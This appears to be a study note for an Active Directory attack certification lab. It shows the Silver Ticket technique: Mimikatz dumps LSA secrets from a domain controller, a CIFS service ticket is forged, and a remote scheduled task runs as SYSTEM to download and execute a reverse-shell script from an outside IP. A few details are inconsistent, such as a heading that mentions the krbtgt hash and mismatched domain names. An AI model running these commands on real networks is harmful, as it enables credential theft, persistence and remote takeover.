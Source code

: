 ```yaml
---
title: "14. Silver Ticket"
section: "crtp"
date: 2022-04-13
tags: ["Domain Persistence", "silver ticket"]
---
```


## Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

## Using hash of the Domain Controller computer account, below command provides access to shares on the DC
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:ad.domain.local /sid:<sid> /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:<rc4-hash> /user:Administrator /ptt"'
```

## Schedule and execute a task
```powershell
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S ad.domain.local /TN "STCheck"
```